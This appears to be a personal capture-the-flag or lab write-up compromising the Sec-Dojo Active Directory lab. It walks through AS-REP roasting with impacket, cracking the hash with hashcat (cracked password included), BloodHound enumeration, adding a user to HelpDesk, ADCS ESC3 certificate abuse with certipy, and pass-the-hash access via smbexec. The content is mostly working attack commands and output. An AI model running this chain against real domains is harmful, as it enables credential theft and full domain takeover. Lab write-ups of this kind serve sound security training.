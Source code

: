 

starting with nmap 

```bash
sudo nmap 10.8.0.2 -sC -sV -p- -oN nmap -T4
```

![[Pasted image 20241011181947.png]]




so it's a DC with an open web page on port 80


by reading the HTML code of page , I found the format of users in the Domain 

`Em.Br`
```HTML
  <!-- Footer-->
    <footer id="contact" class="py-5 bg-black">
        <div class="container px-5">
            <p class="m-0 text-center text-white small"><a href="[mailto:Em.Br@secdojo.local](mailto:Em.Br@secdojo.local)" class="text-white">Email us</a></p>
            <p class="m-0 text-center text-white small">Copyright &copy; Sec-Dojo 2024</p>
        </div>
    </footer>
    <!-- Bootstrap core JS-->
    <script src="[js/bootstrap.bundle.min.js](view-source:http://10.8.0.2/js/bootstrap.bundle.min.js)"></script>
    <!-- Core theme JS-->
    <script src="[js/scripts.js](view-source:http://10.8.0.2/js/scripts.js)"></script>
</body>
</html>
```

 I make a wordlist with all the users in the website using the  same format 

```txt
Em.Br
Ad.Cr
Bo.Jo
```


the only attacks that comes in my mind at this moment is asreproasting 

```bash
impacket-GetNPUsers secdojo.local/ -usersfile users  -outputfile asrep
```

![[Pasted image 20241011180718.png]]

```bash
 hashcat -a 0 asrep /usr/share/wordlists/rockyou.txt

$krb5asrep$23$Ad.Cr@SECDOJO.LOCAL:d51be14d3aa50cb4f878950c397fd52c$f6861835364bb255acdcf9cb14e162e410a8ce07597fed7fafc410ed59b3cab97255441f8b652e6a63951e183ea7b759f6a7f5e73762c8d535316b891ef5c47fbf9350c525713fa067ab80329803e8fb6a37548eaf1f14cc5d39d0f9897c0a84335f0edc83c6a8a65d89c132ac345c2693825d9dd554f563fa908213672fcd2153e24283ad59f3040a194352a46b95646922542ea37a7be06f17478fcdbe0e18e1ce6340b73707dc3a08b1f1eb1dc2f7154ecfb5315b166ebf859139aafbbf4986a3181a0e44b95b6327e9df8edb4412b0aa6a927c5c6ed7511b1984bd9884f9b4e5c1a9ce437acf6715fd07f804:RockYou!
```


after enumerating the shares , ADCS nothing really interesting 

so let's see bloodhound
```bash
RustHound/target/release/rusthound  -d secdojo.local -u 'Ad.Cr@secdojo.local' -p 'RockYou!'   -z
```

taking a look at bloodhound

![[Pasted image 20241011181025.png]]


we can add our controlled user to `HELPDESK Group`

```bash
net rpc group addmem "HelpDesk" "AD.CR" -U "secdojo.local"/"AD.CR"%"RockYou\!" -S "10.8.0.2"
```

well , I was stuck here for long time 

remember skid : enumeration is iterative process which means when you got new user / group ...

I should redo the whole enumeration again , (Including ADCS).

when running ==Certipy== at first it didn't catch the ==ESC3== , after adding my user to ==helpdesk ==user it does  

```bash
certipy-ad find -u Ad.Cr -p 'RockYou!' -stdout  -dc-ip 10.8.0.2
```

![[Pasted image 20241011182048.png]]

```bash
certipy-ad req -u 'Ad.Cr@secdojo.local' -p 'RockYou!' -ca 'SecDojoRootCA' -template 'Enrollement' -dc-ip 10.8.0.2
```

![[Pasted image 20241011182150.png]]

```bash
certipy-ad req -u 'Ad.Cr@secodjo.local' -p 'RockYou!' -ca 'SecDojoRootCA'  -template 'User' -on-behalf-of 'administrator' -pfx ad.cr.pfx -dc-ip 10.8.0.2
```

![[Pasted image 20241011182250.png]]

```bash
 certipy-ad auth -pfx administrator.pfx
```

![[Pasted image 20241011182314.png]]


the stupid AV will catch psexec
```bash
impacket-smbexec secdojo.local/Administrator@10.8.0.2  -hashes :91c49c1fad45e7b9dbdcd7d3c44a880d
```

![[Pasted image 20241011183756.png]]

